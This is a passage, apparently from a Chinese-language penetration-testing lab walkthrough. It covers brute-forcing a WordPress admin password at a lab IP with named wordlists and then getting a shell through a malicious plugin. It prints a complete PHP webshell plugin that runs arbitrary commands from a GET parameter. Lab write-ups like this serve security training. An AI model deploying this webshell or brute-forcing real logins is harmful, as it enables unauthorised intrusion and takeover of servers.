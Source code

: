    ![](../images/pics/打靶/16.jpg)



4. 重新访问，快速加载成功。





### web密码爆破

访问后台地址：http://172.16.42.204/wordpress/wp-admin  （目录扫描获得）

提示admin账号的密码不对，进行破解

使用字典(如下两个都成功)：

- Web-Fuzzing-Box/Brute/Top/Top100000.txt
- SecLists-master/Passwords/xato-net-10-million-passwords-1000000.txt

爆破出来密码adam14



### wordpress后台获取webshell

wordpress的三种getshell，低版本media文件上传、Apprearance主题的 php模板、修改/上传插件





```php
<?php
/**
 * Plugin Name: Webshell
 * Plugin URI: https://ShadowFl0w.github.io
 * Description: WP Webshell for Pentest
 * Version: 1.0
 * Author: ShadowFlow
 * Auther URI: https://ShadowFl0w.github.io
 * License: https://ShadowFl0w.github.io
 */

if(isset($_GET['cmd']))
	{
		system($_GET['cmd']);
	}
?>
```
